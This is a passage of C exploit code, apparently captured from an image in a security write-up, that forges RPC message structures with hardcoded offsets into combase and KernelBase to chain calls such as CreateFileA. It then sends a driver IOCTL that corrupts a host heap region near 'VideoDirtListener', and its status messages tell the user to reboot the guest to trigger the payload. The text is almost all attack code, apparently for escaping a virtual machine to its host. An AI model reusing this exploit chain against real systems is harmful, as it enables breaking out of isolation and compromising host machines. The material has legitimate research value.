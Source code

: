 ```C
	node = payload + 1 * 0x100;
	pRpcMsg = node;
	pRpcMsg->ManagerEpv = NULL;
	pRpcMsg->RpcFlags = 0x1000 | 0x10000000 | 0x20000000;
	buffer = node + 0x60/0x8;
	buffer[0] = rpcrt4_guard_check_icall_fptr;
	buffer[1] = 0x8;
	buffer[2] = 0x4;
	buffer[3] = pRpcMsg->Buffer;

	//call GetCopy
	indirectCallTable[2] = combase + 0xd9100;
	node = payload + 2 * 0x100;
	pRpcMsg = node;
	pRpcMsg->ManagerEpv = NULL;
	pRpcMsg->RpcFlags = 0x1000 | 0x10000000 | 0x20000000;
	buffer = node + 0x60/0x8;
	buffer[0] = (char*)pRpcMsg->Buffer + 0x18;//this
	buffer[1] = rpcrt4_guard_check_icall_fptr;//dest
	buffer[2] = ret;
	char* pThis = &buffer[3];
	*(int*)&pThis[0x14] = 0x8;
	*(__int64*)&pThis[0x18] = (char*)pRpcMsg->Buffer + 0x10 - 4;


	//call CreateFileA
	indirectCallTable[3] = KernelBase + 0x41700;//CreateFileA
	node = payload + 3 * 0x100;
	pRpcMsg = node;
	pRpcMsg->ManagerEpv = NULL;
	pRpcMsg->RpcFlags = 0x1000 | 0x10000000 | 0x20000000;
	buffer = node + 0x60/0x8;
	buffer[0] = (char*)pRpcMsg->Buffer + 0x8 * 7;//file name
	buffer[1] = GENERIC_READ | GENERIC_WRITE;//desired access
	buffer[2] = 0;
	buffer[3] = 0;
	buffer[4] = CREATE_ALWAYS;
	buffer[5] = FILE_ATTRIBUTE_NORMAL;
	buffer[6] = NULL;
	memcpy(&buffer[7], "C:\\Users\\Public\\Hackyboiz\0", 27);


	WriteInfo writeInfo = { 0, };

	printf("[+] Offset Between FindVdl Buffer start and VideoDirtListener: %llx\n", (char*)VideoDirtListenerOffset - (char*)FindVdl.buffer);

	writeInfo.from = FindVdl.from + ((char*)VideoDirtListenerOffset - (char*)FindVdl.buffer);

	writeInfo.from -= writeInfo.from % 0x200;

	writeInfo.to = writeInfo.from + 0x800;
	printf("[+] FindVdl Buffer (%p~)\n[+] VideoDirtListener ptr: %p\n[+] Write from %x to %x\n", FindVdl.buffer, VideoDirtListenerOffset, writeInfo.from, writeInfo.to);

	writeInfo.buffer = (char*)FindVdl.buffer + (writeInfo.from - FindVdl.from);

	printf("[+] Write Payload on TargetHeap\n");
	printf("[+] Overwrite Range: Landpoint+0x%x ~ Landpoint+0x%x\n", writeInfo.from, writeInfo.to);
	DeviceIoControl(driver, CORRUPT_IOCTL, &writeInfo, sizeof(WriteInfo), NULL, 0, NULL, NULL);
	printf("[+] Payload is Ready, Reboot Guest To Trigger Payload\n");

```